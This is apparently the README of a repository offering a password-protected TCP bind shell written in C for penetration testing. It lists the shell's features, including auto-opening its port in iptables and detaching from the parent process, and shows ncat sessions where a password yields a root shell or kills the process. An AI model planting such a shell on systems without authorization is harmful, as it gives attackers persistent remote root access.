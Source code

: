 **SimpleTCPBindShell.c** is a TCP Bind Shell written in C. I wasn't able to find any proper bind shell in Google, so I've quickly written my own.

The purpose of this repository is to help conducting penetration tests on authorized hosts. Otherwise, the code may be used for educational purposes only.

Features
---------------------------
* The code is written in pure C and can be compiled for any architecture (x86/PowerPC/MIPS)
* The usage of the MUSL library is tested
* The shell is protected by a password
* The shell can be terminated by a special keyword even when a command execution is not available
* The command-line interpreter is executed with a proper `argv[0]`, so it should work on BusyBox
* The shell properly detaches from a parent process and doesn't hand the execution flow
* Multiple shell sessions can be opened at the same time
* The bind port can be automatically added to iptables

Usage
---------------------------
**Command Execution**
```
$ ncat 127.0.0.1 65002
2023
id
uid=0(root) gid=0(root) groups=0(root)
```

**Process Termination**
```
$ ncat 127.0.0.1 65002
2023T
Ncat: Broken pipe.
```
